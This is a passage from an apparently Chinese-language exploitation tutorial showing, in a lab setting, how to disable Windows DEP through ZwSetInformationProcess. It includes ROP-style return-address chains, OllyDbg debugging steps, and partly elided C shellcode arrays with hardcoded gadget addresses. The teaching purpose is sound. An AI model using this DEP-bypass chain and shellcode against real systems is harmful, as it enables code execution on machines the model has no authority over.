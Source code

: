 指令虽然找到了不少，但符合条件的不多。首先回顾一下图 12.3.5 中各寄存器的状态，所有的寄存器中只有 ESP 指向的位置可以写入，所以现在我们只能选择 ```PUSH ESP POP EBP RETN``` 指令序列了。

现在还有一个严重的问题需要解决，我们直接将 ESP 的值赋给 EBP 返回后，ESP 相对 EBP 位于高址位置，当有入栈操作时 EBP-4 处的值可能会被冲刷掉，进而影响传入 ZwSetInformationProcess 的参数，造成 DEP 关闭失败。 我们不妨先使用 0x5D1D8B85 处的 ```PUSH ESP POP EBP RETN 04``` 指令来修正 EBP，然后再根据堆栈情况想办法消除 EBP-4 被冲刷的影响。先对 shellcode 重新布局，在转入关闭 DEP 流程前加入修正 EBP 指令，代码如下所示。 

```
char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
    "……" 
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90" 
    "\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D" //修正 EBP 
    "\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 
    ;
```

重新编译程序后用 OllyDbg 加载，在 0x7C95683B 处，即 CALL ZwSetInformationProcess 时下断点，待程序中断后观察堆栈情况。如图 12.3.8 所示，EBP-4 中的内容已经被冲刷掉，内容已经被修改为 0x22，根据_KEXECUTE_OPTIONS 结构我们知道 DEP 只和结构中的前 4 位有关，只要前 4 位为二进制代码为 0010 就可关闭 DEP，而 0x22（00100010）刚刚符合这个要求，所以用 0x22 冲刷掉 EBP-4 处的值还是可以关闭 DEP 的。 

<img src="images/09/EBP减4处被修改位0x22.png">


虽然现在我们已经关闭了 DEP，但是我们失去了进程的控制权。我们再来看看关闭 DEP 后程序返回时的堆栈情况：按 F8 键单步运行程序，在 0x7C93CD6F 处，即 RETN 4 处暂停， 观察堆栈情况。如图 12.3.9 所示，ESP 指向 0x0012FEBC，大家看这个 0x00000004 是不是很眼 熟？这就是关闭 DEP 时的 PUSH 4 操作的结果，这个位置也被冲刷了！现在有家回不去，所以 我们不能简单地在修正 EBP 后直接关闭 DEP，还需要对 ESP 或者 EBP 进行调整。 

<img src="images/09/关闭dep后程序返回时返回地址被冲刷.png">

一般来说当ESP值小于EBP时，防止入栈时破坏当前栈内内容的调整方法不外乎减小ESP 和增大 EBP，由于本次实验中我们的 shellcode 位于内存低址，所以减小 ESP 可能会破坏 shellcode，而增大 EBP 的指令在本次实验中竟然找不到。一个变通的方法是增大 ESP 到一个安全的位置，让 EBP 和 ESP 之间的空间足够大，这样关闭 DEP 过程中的压栈操作就不会冲刷 到 EBP 的范围内了。 我们可以使用带有偏移量的 RETN 指令来达到增大 ESP 的目的，如 RETN 0x28 等指令可以执行RETN指令后再将ESP增加0x28个字节。我们可以通过OllyFindAddr插件中的Overflow return address-> POP RETN+N 选项来查找相关指令，查找部分结果如图 12.3.10 所示。 

<img src="images/09/popretn加n指令查找结果.png">

在搜索结果中选取指令时只有一个条件：不能对 ESP 和 EBP 有直接操作。否则我们会失 去对程序的控制权。在这我们选择 0x7C974A19 处的 RETN 0x28 指令来增大 ESP。我们对 shellcode 重新布局，在关闭 DEP 前加入增大 ESP 指令地址。需要注意的是修正 EBP 指令返回 时带有的偏移量会影响后续指令，所以我们在布置 shellcode 的时要加入相应的填充。 

```c++

charshellcode[]= 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
"……" 
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90" 
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
"\x85\x8B\x1D\x5D" //修正 EBP 
"\x19\x4A\x97\x7C" //增大 ESP 
"\x90\x90\x90\x90" //jmp esp
"\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 ;
```

